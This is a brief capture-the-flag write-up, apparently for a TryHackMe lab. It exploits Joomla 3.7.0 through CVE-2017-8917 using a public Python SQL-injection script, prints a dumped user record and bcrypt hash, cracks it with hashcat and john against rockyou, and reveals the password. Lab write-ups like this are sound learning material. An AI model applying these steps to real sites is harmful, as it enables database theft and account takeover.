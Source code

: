 we search for exploits for joomla 3.7.0 and find:
CVE-2017-8917

The room hint says to not use SQLmap and to use python instead.

We find this python script:
https://github.com/NinjaJc01/joomblah-3

we find a password hash:

`$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`

and usernames:

`(' [$] Found user', ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', ''])`



```bash
sed -n '45000,50000p' /usr/share/wordlists/rockyou.txt | hashcat -m3200 -a0 --force 'hash.txt'
```


sed -n '45000,50000p' /usr/share/wordlists/rockyou.txt | john --stdin --format=bcrypt hash.txt

We finally got the fuckin password it's `spiderman123`